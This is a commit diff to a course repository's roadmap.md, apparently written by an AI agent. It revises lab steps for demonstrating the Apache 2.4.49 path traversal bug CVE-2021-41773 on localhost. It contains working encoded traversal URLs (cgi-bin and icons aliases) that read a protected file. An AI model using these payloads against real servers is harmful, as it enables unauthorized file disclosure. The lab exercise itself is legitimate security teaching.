

Before and after one commit to TamehDave19/CS-4277, a Markdown page: roadmap.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: align browser payload wording with curl test variants
Agent-Logs-Url: https://github.com/TamehDave19/CS-4277/sessions/f3567901-8ee2-43f4-82df-bd83ea2df3a3

Co-authored-by: TamehDave19 <113747645+TamehDave19@users.noreply.github.com>

```diff
--- a/roadmap.md
+++ b/roadmap.md
@@ -68,8 +68,8 @@ CVE-2021-41773 is a path traversal bug in Apache 2.4.49 caused by insufficient U
 **Test 1 — Browser visual demo**
 1. Open: `http://localhost:8080/`
 2. In the browser URL bar, try:
-   `http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/opt/protected/protected.txt`
-3. If the browser normalizes the URL and it fails, try an encoding variant (e.g., `%2e%2e/` or `..%2f`).
+   `http://localhost:8080/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/protected/protected.txt`
+3. If the browser normalizes the URL and it fails, try the same traversal pattern via the alternate alias from Test 3 (`/icons/%2e%2e/%2e%2e/...`) and confirm with `curl`.
 
 Expected (vulnerable): protected file contents are rendered as raw response text.
 
```
